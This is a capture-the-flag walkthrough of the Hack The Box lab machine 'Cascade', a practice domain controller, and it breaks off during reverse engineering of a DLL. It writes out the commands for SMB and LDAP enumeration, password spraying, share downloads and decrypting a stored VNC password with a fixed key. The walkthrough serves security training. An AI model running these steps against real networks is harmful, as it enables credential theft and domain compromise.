---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# Cascade

## Walkthrough Summary

[Cascade](https://app.hackthebox.com/machines/235) is a <mark style="color:orange;">medium-rated</mark> box that requires thorough **enumeration of the SMB and LDAP services** as well as a **password spray** attack for obtaining valid domain user credentials. A second round of **SMB enumeration** along with **Metasploit** allows to find and **decrypt a password** and **move laterally**. By **reverse enigneering** an executable and a DLL file we are able to **decrypt a second password** and **elevate our privileges**. Finally, **enumerating the LDAP service for deleted objects** leads to a full domain compromise.

<table><thead><tr><th width="93" align="right">Step</th><th>Action</th><th>Tool</th><th>Achieved</th></tr></thead><tbody><tr><td align="right">1</td><td>SMB Enumeration</td><td><a href="../../tools/tools/active-directory/netexec-+cme.md">NetExec</a></td><td>Domain users</td></tr><tr><td align="right">2</td><td>LDAP Enumeration</td><td><a href="https://linux.die.net/man/1/ldapsearch">ldapsearch</a></td><td>Password</td></tr><tr><td align="right">3</td><td>Password Spray</td><td><a href="../../tools/tools/active-directory/netexec-+cme.md">NetExec</a></td><td>Domain credentials</td></tr><tr><td align="right">4</td><td>SMB Enumeration</td><td><a href="../../tools/tools/active-directory/netexec-+cme.md">NetExec</a>, <a href="https://github.com/rapid7/metasploit-framework">Metasploit</a></td><td>Lateral movement</td></tr><tr><td align="right">5</td><td>SMB Enumeration</td><td><a href="../../tools/tools/active-directory/netexec-+cme.md">NetExec</a></td><td>Encrypted credentials</td></tr><tr><td align="right">6</td><td>Reverse Engineering</td><td><a href="https://github.com/dnSpy/dnSpy">dnspy</a></td><td>Elevation of privileges</td></tr><tr><td align="right">7</td><td>LDAP Enumeration</td><td><a href="https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/">LOTL*</a></td><td>Domain compromise</td></tr></tbody></table>

\*_Living Off The Land_

## Cascade Acquaintance

Let's start with a port scan (Figure 1):


```bash
sudo nmap 10.10.10.182 -T4 -A -open -p-
```


<figure><figcaption><p>Figure 1: Port-scanning the Cascade box.</p></figcaption></figure>

There are some interesting things that we can note down:

1. Services like DNS, LDAP, and Kerberos inform us that **this is a DC**.
2. Port `5985` is open which means that **WinRM is available**.
3. The FQDN of the DC is `CASC-DC1.CASCADE.LOCAL`.

Before moving forward, let's add some the hostname, the domain name, and the FQDN to our local DNS file (Figure 2).

```bash
# edit the local DNS file
sudo nano /etc/hosts
```

<figure><figcaption><p>Figure 2: Adding the required names to the local DNS file.</p></figcaption></figure>

## Questioning SMB

Typically, we can get some kind of information from an **SMB/LDAP NULL** session. Let's start with SMB (Figure 3).

```bash
# enumerating password policy, shares, and users
$ nxc smb 10.10.10.182 -u '' -p '' --pass-pol --shares --users
```

<figure><figcaption><p>Figure 3: Enumerating the password policy, shares, and domain users via the SMB server.</p></figcaption></figure>

SMB provides us with a lot of useful information:

1. We need credentials to enumerate the shares.
2. We got some domain usernames from which we can create a username list.
3. There is no danger of locking out accounts in case we needed to perform a brute-force attack.

We can convert NetExec's output to a clean username list as follows:

```bash
# writing the output to a file
nxc smb 10.10.10.182 -u '' -p '' --users --log nxc_users
# manually removing junk lines
nano nxc_users
# extracting the usernames
awk -F' ' '{print $10}' nxc_users | cut -d '\' -f2 > users.txt
```

Using our username list for an [ASREPRoasting](../../tl-dr/tl-dr/active-directory/asreproasting.md) attack returns nothing. Not much else to get from SMB for now; let's move to enumerating LDAP.

## Talking with LDAP

We already know the `namingcontext` of the domain, so can try dumping all the available information directly. That can be a lot, so let's write the output into a file and search for unique (low-frequency) fields to check if everything interesting stands out (Figure 4).


```bash
# dump all ldap info into a file
$ ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' > ldap_info
# search for anomalies
$ cat ldap_info | awk '{print $1}' | sort | uniq -c | sort -n | grep ':'
```


<figure><figcaption><p>Figure 4: Spotting a unique field among the LDAP fields.</p></figcaption></figure>

A field called `cascadeLegacyPwd` sticks out! If we search LDAP's output file to see what this field holds it seems like a [Base64](../../tools/tools/crypto.md#encoding-decoding) encoded value, which we can directly decode (Figure 5).

```bash
# search for the field of interest
cat ldapsearch_output | grep cascadeLegacyPwd
# extract and decode the string
cat ldap_info | grep cascadeLegacyPwd | cut -d' ' -f2 | base64 -d
```

<figure><figcaption><p>Figure 5: Revealing and decoding the cascadeLegacyPwd field's valuie. </p></figcaption></figure>

We can now try spraying the cleartext password to our username list and see how it goes (Figure 6).

```bash
nxc smb 10.10.10.182 -u users.txt -p rY4n5eva --continue-on-success
```

<figure><figcaption><p>Figure 6: Password spraying!</p></figcaption></figure>

We got a hit back! We have obtained valid credentials for the user `r.thompson` ! Sadly, this account does not have WinRM access and checking for any [Kerberoastable](../../tl-dr/tl-dr/active-directory/kerberoasting.md) domain accounts returns nothing. All we are left with is enumerating the SMB shares, and by doing it we get some interesting results back (Figure 7). &#x20;


```bash
# enumerating shares
nxc smb 10.10.10.182 -u r.thompson -p rthompson_pass --shares
# spidering the Data share
nxc smb 10.10.10.182 -u r.thompson -p rthompson_pass --spider Data --regex . --depth 0
```


<figure><figcaption><p>Figure 7: Enumerating and spidering SMB shares.</p></figcaption></figure>

There seems to be a directory structure based on the company's departments; let's download and inspect the `Data` share on our attack host (Figure 8 & 9).


```bash
# downloading the Data share
nxc smb 10.10.10.182 -u r.thompson -p rthompson_pass -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=SMB EXCLUDE_FILTER=NETLOGON,SYSVOL,IPC\$,print\$
# expanding the Data directory
tree SMB
```


<figure><figcaption><p>Figure 8: Downloading the Data share.</p></figcaption></figure>

<figure><figcaption><p>Figure 9: Expanding the Data directory.</p></figcaption></figure>

There are 4 files inside the `Data` share, 3 of them of interest:

1. The `Meetings_Notes_June_2018.html` file mentions the account `TempAdmin` , although we have found no such account so far. That is probably because the Cascade box was created on 2020, but, according to this note, the account was deleted at the end of 2018 (Figure 10).
2. The `ArkAdRecycleBin.log` file confirms that the `TempAdmin` account was deleted on the 8/12/2018 by an account called `ArkSvc` (Figure 11). This account exists in our username list!
3. The `VNC Install.reg` file contains the hexed password of the user `s.smith` (Figure 12).

<figure><figcaption><p>Figure 10: An HTML file containing an email with past meeting notes.</p></figcaption></figure>

<figure><figcaption><p>Figure 11: The log shows that TempAdmin was deleted by ArkSvc at the end of 2018.</p></figcaption></figure>

<figure><figcaption><p>Figure 12: User s.smith's hexed password!</p></figcaption></figure>

Based on the information we got from there share files:

1. The `TempAdmin` account seems to have equivalent privileges as well as sharing the same password with the proper `Administrator` account, so compromising it might be the key to the kingdom 👑!
2. The `ArkSvc` account seems to have privileges to manage AD objects, thus, compromised this account might be able to get further information and/or restore the `TempAdmin` account.
3. We also have the account `s.smith` but not its cleartext password, so our next goal is to get that.

The password must be encrypted as it cannot be converted from hex to plaintext directly:

```bash
# decrypting the hexed string to binary to plaintext
$ echo 6bcf2a4b6e5aca0f | xxd -r -p
k�*KnZ�
```

Searching for "_decryption TigerVNC_" takes us to [this](https://github.com/frizb/PasswordDecrypts?tab=readme-ov-file#metasploit-framework-and-the-irb-ruby-shell) article, which uses a Metasploit module to perform the decryption. Following this process, we get `s.smith`'s cleartext password (Figure 13).

<pre class="language-bash"><code class="lang-bash"><strong># decrypting the TigerVNC password
</strong><strong>msfconsole -q
</strong>msf6 > irb
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey 
</code></pre>

<figure><figcaption><p>Figure 13: Decrypting the TigerVNC password.</p></figcaption></figure>

This user has `READ` access to the `Audit` share, and by spidering this share we see that it includes some interesting files, including an `Audit.db` file (Figure 14).

```bash
# check share access
nxc smb 10.10.10.182 -u s.smith -p s.smith_pass --shares
# spider the Audit share
nxc smb 10.10.10.182 -u s.smith -p s.smith_pass --spider Audit\$ --regex . --depth 1
```

<figure><figcaption><p>Figure 14: Enumerating s.smith's share access and spidering the Audit share.</p></figcaption></figure>

By downloading the share and dumping the data of `Audit.db` we obtain the credentials of the `ArkSvc` account (Figure 15 & 16).


```bash
# downloading the Audit share
nxc smb 10.10.10.182 -u s.smith -p s.smith_pass -M spider_plus -o DOWNLOAD_FLAG=True EXCLUDE_FILTER=Data,NETLOGON,print\$,SYSVOL OUTPUT_FOLDER=SMB
# checking the file type of Audit.db
file SMB/10.10.10.182/Audit\$/DB/Audit.db
# dumping the database's data
sqlite3 SMB/10.10.10.182/Audit\$/DB/Audit.db .dump
```


<figure><figcaption><p>Figure 15: Downloading the Audit share.</p></figcaption></figure>

<figure><figcaption><p>Figure 16: The database contains the credentials of the ArkSvc account!</p></figcaption></figure>

Unfortunately, the password seems to be encrypted once again:

```bash
$ echo "BQO5l5Kj9MdErXx6Q6AGOw==" | base64 -d
������D�|zC�;
```

Along with the database, we downloaded the `CascAudit.exe` and `CascCrypto.dll` files. Maybe `ArkSvc` password is encrypted using this files, thus, we can try finding how that is done by reverse engineering them. To do that, we have to first transfer the files to a Windows box via an SMB share:&#x20;



```bash
# start an smb server to serve the files
$ smbserver -smb2support share $(pwd)
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```



```bash
# grab the IP address of the Windows interface
$ ip a show eth0
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:15:5d:e0:94:0a brd ff:ff:ff:ff:ff:ff
    inet 172.31.150.94/20 brd 172.31.159.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::215:5dff:fee0:940a/64 scope link
       valid_lft forever preferred_lft forever
```



<figure><figcaption><p>Accessing the SMB share via the Windows intefrace.</p></figcaption></figure>



Now, by reverse engineering the files using a tool such as [dnSpy](https://github.com/dnSpy/dnSpy) we can find out how the encryption method works (Figure 17 & 18).

<figure><figcaption><p>Figure 17: Reverse engineering the DLL file gives us almost all information we need!</p></figcaption></figure>

